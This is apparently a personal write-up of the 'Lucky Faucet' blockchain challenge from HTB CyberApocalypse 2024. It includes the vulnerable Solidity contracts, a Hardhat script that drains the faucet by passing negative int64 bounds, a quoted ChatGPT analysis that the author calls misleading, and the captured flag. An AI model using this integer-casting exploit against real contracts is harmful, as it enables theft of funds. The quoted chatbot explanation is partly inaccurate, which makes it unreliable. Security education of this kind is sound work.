 ```yaml
---
ctf: CyberApocalypse 2024
published: 2024-03-16
tags:
- Blockchain
title: Lucky Faucet

---
```


It has been a while since my last CTF but I decided to join the HTB’s CyberApocalypse 2024.  
  
This challenge was pretty easy but also engaging, we have two contracts:  
  
`Setup.sol`

```Solidity
 // SPDX-License-Identifier: UNLICENSED
pragma solidity 0.7.6;

import {LuckyFaucet} from "./LuckyFaucet.sol";

contract Setup {
    LuckyFaucet public immutable TARGET;

    uint256 constant INITIAL_BALANCE = 500 ether;

    constructor() payable {
        TARGET = new LuckyFaucet{value: INITIAL_BALANCE}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance <= INITIAL_BALANCE - 10 ether;
    }
}
```

Basically we have to withdraw 10 or more ether from the initial contract balance of 500

`LuckyFaucet.sol`

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.7.6;

contract LuckyFaucet {
    int64 public upperBound;
    int64 public lowerBound;

    constructor() payable {
        // start with 50M-100M wei Range until player changes it
        upperBound = 100_000_000;
        lowerBound =  50_000_000;
    }

    function setBounds(int64 _newLowerBound, int64 _newUpperBound) public {
        require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
        require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
        require(_newLowerBound <= _newUpperBound);
        // why? because if you don't need this much, pls lower the upper bound :)
        // we don't have infinite money glitch.
        upperBound = _newUpperBound;
        lowerBound = _newLowerBound;
    }

    function sendRandomETH() public returns (bool, uint64) {
        int256 randomInt = int256(blockhash(block.number - 1)); // "but it's not actually random 🤓"
        // we can safely cast to uint64 since we'll never 
        // have to worry about sending more than 2**64 - 1 wei 
        uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
        bool sent = msg.sender.send(amountToSend);
        return (sent, amountToSend);
    }
}
```

So, at a first glance we can withdraw at most 10M gwei, now given `1 ETH` = `10e18 Wei` we should do something in the range of `10e15` requests, not really feasible.

Clearly `setBounds` is the target functions to exploit, and there is something weird with `int64` params and the mechanism as a whole.

At this point I decided to query chatGPT on it, just in case

> [!important] Hey chatgpt, do you see any potential bug in the code ?

> Yes, there is a potential bug in the `**sendRandomETH()**` function related to the type conversion of the `**randomInt**` variable. Let me explain:

> The line `**int256 randomInt = int256(blockhash(block.number - 1));**` retrieves the blockhash of the previous block and casts it to an `**int256**` type. This conversion may result in a negative value since the blockhash is a hexadecimal value, and when interpreted as a signed integer, it can be negative.

> Later in the code, the expression `**randomInt % (upperBound - lowerBound + 1) + lowerBound**` is used to generate a random number within the specified range. However, if `**randomInt**` is negative, the result of the modulo operation may also be negative, which can lead to unexpected behavior.

> Additionally, the comment "we can safely cast to uint64" might not hold true if `**randomInt**` is negative and larger than the maximum value representable by a `**uint64**`. This can result in an incorrect amount of Ether being sent or even cause a revert due to underflow.

> To address this issue, you can consider using a more robust method for generating randomness, such as a provably fair random number generator (RNG) or integrating an external randomness source like Chainlink VRF (Verifiable Random Function). These methods ensure that the generated random number is unbiased and cannot be manipulated by miners or other parties.

> In summary, the potential bug lies in the conversion of the blockhash to an integer and the subsequent calculation of the random number. Using a more reliable method for generating randomness would improve the security and reliability of the contract.

  

I have to admit that chatGPT is amazing at gaslighting, everything seems to make sense even though it doesn’t really add up. However it mentions the `setBounds` functions and negative integers/modulus that is an interesting starting point.

It’s not exactly how chatGPT described it, but clearly the problem is that there is no check for negative numbers and uint works with modulus.

```Python
  require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
  require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
  require(_newLowerBound <= _newUpperBound);
```

We need to take out around `~ 2**63 wei`, the modulus is `2**64`therefore if we manage to put a random negative number in the modulus we can expect to drain the `10 eth` in a few attempts  
  

```JavaScript
import { ethers } from "hardhat";

async function main() {

    const SetupAddress = "0xcFAF2992b981cAB5a01206C5705A3AbEFC76B4C4"
    const Setup = await ethers.getContractAt("Setup", SetupAddress);
    console.log(`Setup: ${await Setup.getAddress()}`);
    console.log(`isSolved: ${await Setup.isSolved()}`);


    const LuckyFaucetAddress = await Setup.TARGET()
    const LuckyFaucet = await ethers.getContractAt("LuckyFaucet", LuckyFaucetAddress);
    console.log(`LuckyFaucet: ${await LuckyFaucet.getAddress()}`);

    const targetBalancePre = await ethers.provider.getBalance(LuckyFaucetAddress)
    console.log(`targetBalance: ${targetBalancePre}`);

    const newUpperBound = - (10_000_000_000)
    const newLowerBound = - (50_000_000_000)
    await LuckyFaucet.setBounds(newLowerBound, newUpperBound)
    const result = await LuckyFaucet.sendRandomETH()
    console.log(`sendRandomEth: ${result[0]} ${result[1]}`);

    const targetBalancePost = await ethers.provider.getBalance(LuckyFaucetAddress)
    console.log(`diff: ${targetBalancePost - targetBalancePre}`);
    console.log(`isSolved: ${await Setup.isSolved()}`);

}

// We recommend this pattern to be able to use async/await everywhere
// and properly handle errors.
main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

This is actually the first time I used `hardhat` to make this sort of challenges and I have to admit that is waay superior to python for the task

And finally we get the flag

```Bash
$ nc 83.136.252.62 38754
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{1_f0rg0r_s0m3_U}
```